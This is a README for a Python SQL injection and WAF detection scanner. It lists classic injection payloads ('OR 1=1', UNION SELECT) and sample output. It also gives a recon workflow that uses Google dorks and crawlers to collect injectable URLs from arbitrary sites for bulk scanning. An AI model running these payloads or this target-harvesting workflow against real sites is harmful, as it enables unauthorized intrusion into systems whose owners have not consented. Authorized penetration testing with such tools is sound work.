 
# SQL Injection Detector with WAF Detection

## Original
Forked from https://github.com/aungsanoo-usa/sqli_detect.git

## Overview
This script is a powerful tool for detecting **SQL Injection vulnerabilities** and identifying **Web Application Firewall (WAF) behavior** in web applications. Designed for both single URL and bulk URL testing from a `urls.txt` file, it provides detailed insights into the security posture of your application.

## Features
- **SQL Injection Detection**:
  - Comprehensive payloads for error-based, union-based, and logical SQL injection techniques.
  - Tracks significant changes in response length and detects error messages.
  
- **Web Application Firewall (WAF) Detection**:
  - Identifies WAF behavior by observing HTTP status codes (`403`, `406`, etc.) and content changes.

- **Flexible Scanning**:
  - Test a single URL or scan multiple URLs from a `urls.txt` file.

- **User-Friendly Output**:
  - Color-coded results for vulnerabilities, WAF detection, and safe responses.

## Requirements
- Python 3.6 or later
- Libraries: `requests`, `colorama`

Install the required libraries using:
```bash
pip install requests colorama
```

## Sample target
1. google dork:
   ```bash
   $ git clone https://github.com/BullsEye0/dorks-eye
   $ python dorks-eye.py
   query > site:id inurl:/product.php?id=
   display > 100

   $ cat dork_results.txt | grep -E ".php|.asp|.aspx|.jspx|.jsp" | grep '=' | sed 's/=.*/=/' | sort | uniq > bsqli.txt
   $ python3 sqli_detect.py
   URL > 2
   file > bsqli.txt
   ```
2. Input url and filter:
   ```bash
   # Step 1: Run katana with passive sources and save output to a unified file (output/output.txt)
   $ echo "$website_url" | katana -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | uro > "output.txt"

   # Step 2: Run katana actively with depth 5 and append results to output/output.txt
   $ katana -u "$website_url" -d 5 -f qurl | uro | anew "output.txt"

   # Step 3: Filter output/output.txt for different vulnerabilities
   # XSS
   $ cat "output.txt" | Gxss | kxss | grep -oP '^URL: \K\S+' | sed 's/=.*/=/' | sort -u > "xss_output.txt"

   # Open Redirect
   $ cat "output.txt" | gf or | sed 's/=.*/=/' | sort -u > "open_redirect_output.txt"

   # LFI
   $ cat "output.txt" | gf lfi | sed 's/=.*/=/' | sort -u > "lfi_output.txt"

   # SQLi
   $ cat "output.txt" | gf sqli | sed 's/=.*/=/' | sort -u > "sqli_output.txt"
   ```

## Usage
1. Run the script:
   ```bash
   python sqli_detect.py
   ```
2. Choose your scan type:
   - Enter `1` for a single URL scan.
   - Enter `2` to scan multiple URLs from a file (e.g., `urls.txt`).

3. Review the results in the terminal.

## Input Format
### Single URL
When prompted, enter a URL with a parameter:
```
http://example.com/page.php?id=
```

### Bulk URLs
Create a `urls.txt` file with one URL per line:
```
http://example.com/page.php?id=
http://test.com/item.php?item_id=
http://vulnerable-site.com/index.php?product_id=
```

## Example Output
### Vulnerable Target
```text
[*] Starting SQL Injection scan for: http://example.com/page.php?id=
[+] SQL Injection Found with payload: ' OR 1=1; --
[!] WAF Detected: Payload '' caused HTTP 403
[+] SQL Injection Found with payload: ' UNION SELECT NULL,NULL,NULL--

[!] Scan complete.
[!!!] The target might be VULNERABLE to SQL Injection.
```

### Secure Target
```text
[*] Starting SQL Injection scan for: http://example.com/page.php?id=
[-] No vulnerability with payload: '
[-] No vulnerability with payload: ' OR 1=1; --
[!] WAF behavior detected: Response length changed with payload: ' UNION SELECT NULL,NULL,NULL--

[!] Scan complete.
[+] The target is NOT vulnerable to SQL Injection.
```

### Bulk URLs Summary
```text
[*] Starting SQL Injection scan for: http://example.com/page.php?id=
[+] SQL Injection Found with payload: ' OR '1'='1
[!] WAF Detected: Payload '' caused HTTP 406
[*] Starting SQL Injection scan for: http://secure-site.com/index.php?item_id=
[-] No vulnerability with payload: '

[!] Scan complete.
Summary:
http://example.com/page.php?id= -> VULNERABLE
http://secure-site.com/index.php?item_id= -> NOT VULNERABLE
```

## Payloads Used
The script tests a wide variety of SQL injection payloads, including:
- `'`
- `''`
- `' OR 1=1; --`
- `' UNION SELECT NULL,NULL,NULL--`
- And many more...

For the full list, refer to the `scan()` function in the script.

## Contributions
Contributions are welcome! If you'd like to improve the tool, feel free to fork the repository, make your changes, and submit a pull request.

## Disclaimer
This tool is intended for **educational purposes** and **authorized penetration testing** only. Ensure you have permission to test any target. The developers are not responsible for any misuse of this tool.

